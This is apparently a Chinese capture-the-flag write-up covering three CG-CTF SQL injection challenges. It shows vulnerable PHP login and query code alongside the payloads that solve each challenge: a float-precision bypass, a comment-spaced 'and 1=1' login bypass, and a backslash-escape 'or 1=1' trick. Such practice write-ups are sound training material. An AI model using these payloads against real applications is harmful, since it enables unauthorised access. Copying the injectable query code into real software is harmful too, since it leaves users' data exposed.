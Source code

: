 #sql注入做题总结

###1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
###2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
###3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出